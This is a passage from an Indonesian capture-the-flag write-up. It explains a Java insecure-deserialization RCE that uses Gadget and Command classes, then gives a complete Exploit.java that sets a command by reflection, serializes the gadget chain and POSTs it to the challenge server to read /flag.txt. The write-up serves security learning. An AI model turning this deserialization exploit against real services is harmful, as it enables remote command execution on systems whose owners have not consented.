 * Hal tersebut bisa menyebabkan RCE karena server langsung menerima objek yang diserialkan tanpa memvalidasinya terlebih dulu.
* Ditambah lagi ada class `Gadget` dan `Command` yang dapat membuat proses eksploitasi lebih mudah. Di mana class `Command` memungkinkan eksekusi perintah sistem secara langsung. Dan class `Gadget` akan memanggil method `run()` dari `Command` saat \`toString()\`\` dipanggil.
* Kemudian saya diberikan script `Exploit.java` menggunakan **Reflection** oleh AI untuk mencoba RCE. Setelah beberapa kali penyesuaian karena issue package-package di Java akhirnya bisa juga :)
* Berikut ini adalah exploit scriptnya:

{% code lineNumbers="true" %}
```java
// Script ini terletak di `src/main/java`

import com.dimas.Command;
import com.dimas.Gadget;

import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.net.HttpURLConnection;
import java.net.URL;
import java.util.Base64;

public class Exploit {
    public static void main(String[] args) throws Exception {
        // Buat objek Command menggunakan konstruktor tanpa argumen
        Command cmd = new Command();
        
        // Gunakan refleksi untuk mengakses dan mengubah field 'command'
        Field commandField = Command.class.getDeclaredField("command");
        commandField.setAccessible(true);
        commandField.set(cmd, "cat /flag.txt");
        
        // Bungkus Command dalam Gadget
        Gadget gadget = new Gadget(cmd);
        
        // Serialisasi objek Gadget
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(gadget);
        oos.close();
        
        // Encode payload ke Base64
        String payload = Base64.getEncoder().encodeToString(baos.toByteArray());
        
        // Kirim payload ke server
        URL url = new URL("http://ctf.slashrootctf.id:30013");
        HttpURLConnection con = (HttpURLConnection) url.openConnection();
        con.setRequestMethod("POST");
        con.setDoOutput(true);
        con.getOutputStream().write(Base64.getDecoder().decode(payload));
        
        // Baca respons dari server
        java.util.Scanner s = new java.util.Scanner(con.getInputStream()).useDelimiter("\\A");
        String response = s.hasNext() ? s.next() : "";
        System.out.println("Server response: " + response);
    }
}
```
{% endcode %}
